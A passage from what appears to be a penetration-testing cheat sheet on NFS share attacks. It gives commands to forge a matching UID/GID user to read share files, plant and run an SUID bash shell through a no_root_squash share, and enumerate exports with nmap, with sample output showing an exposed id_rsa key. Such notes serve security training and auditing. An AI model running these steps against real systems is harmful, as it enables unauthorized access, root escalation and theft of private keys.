 ### Privilege Escalation via UID/GID Matching

If you have access to UID/GID mappings, replicate them locally to gain elevated access.

**Steps**:

1. Create a matching user:

    ```bash
    sudo useradd -u [UID] -g [GID] user
    ```

2. Access the share:

    ```bash
    sudo -u user cat ./target-nfs/file
    ```

---

### Exploiting Misconfigured Shares

**No Root Squash**:

- Allows root to create files with elevated permissions on the NFS share.

**Command**:

1. Place an SUID shell:

    ```bash
    cp /bin/bash ./target-nfs/bash
    chmod +s ./target-nfs/bash
    ```

2. Execute the shell:

    ```bash
    ./bash -p
    ```

---

## Combining Tools

### Using Nmap for NFS Discovery

Use Nmap's NSE scripts for NFS enumeration.

**Command**:

```bash
nmap --script nfs-ls,nfs-statfs -p111,2049 TARGET_IP
```

**Example Output**:

```
nfs-ls: Volume /mnt/nfs
  rwxrwxrwx   65534  65534  4096  Sep 25 17:28  .
  rw-r--r--   0      0      1872  Sep 25 17:27  id_rsa
```

---